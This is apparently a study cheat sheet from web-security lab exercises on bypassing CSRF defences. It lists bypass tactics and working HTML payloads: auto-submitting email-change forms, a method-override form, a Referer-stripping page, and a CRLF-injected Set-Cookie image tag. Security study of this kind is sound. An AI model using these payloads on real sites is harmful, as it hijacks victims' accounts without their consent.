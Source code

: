 ### CSRF bybass methods
- NO csrf token
- weak csrf token
- check content type
- check referer header

### CSRF token bybass methods
- reomving ANI-csrf token
- NO check for the users token
- weak token
- Reasuable token
- change request method
- Guessable token
- Bybass referer

### method attacks
- remove referer header and send request and check response
- remove original header and send request and check response
- remove csrf  token and send request and check response



### Basic method no defenses
- the request
```
POST /myaccount/changeemail
HOST:


email=....
```

- the exploit
```html
<form action="" method="POST">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>

```
### CSRF where token validation depends on token being present
- the request
```
POST /myaccount/changeemail
HOST:


email=....&csrftoken=.....
```
- TIPS: reomve the csrf token
-THE exploit

```html
<form action="" method="POST">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

### CSRF where token validation depends on request method
- the request
```
POST /myaccount/changeemail
HOST:


email=....&csrftoken=.....
```
- TIPS: reomve the csrf token
- Tips: change request TO GET in CSRF payloads
-THE exploit

```html
<form action="" method="GET">
<input type="hidden" name="email" value="">
</form>
<script>
 document.forms[0].submit();
</script>
```

### CSRF where token is not tied to user session
- steps                                                                                                                                                                     
1- create two accounts                                                                                                                                                                     
2- go to the first account and change email we will change                                                                                                                                                                     
3- go to second account and try intersept change email then drop request , copy the csrf token                                                                                                                                                                     
4- go to the first account and put csrf token(second account) and try change email is valid or not


### csrf bypass via method override
```
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="" method="GET">
   <input type="hidden" name="_method" value="POST">
   <input type="hidden" name="email" value="">
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
### CSRF where token is duplicated in cookie
```html
<html>
<body>
   <script>history.pushState(' ',' ','/')</script>
   <form action="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/my-account/change-email" method="POST"/>
   <input type="hidden" name="email" value="a@gmail.com"/>
   <input type="hidden" name="csrf" value="fake"/>
   <input type="submit" value="submit request"/>
   </form>
   <img src="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
   </body>
</html>
```
### CSRF where Referer validation depends on header being present
```html
<html>
<head>
   <meta name="referrer" content="no-referrer" >
</head>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="https://0a390078039fe0a780e435a600ca0059.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```

### CSRF with broken Referer validation
```html
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/?0ad4003504bb812580aae57c00c40072.web-security-academy.net')</script>
   <form action="https://0ad4003504bb812580aae57c00c40072.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```
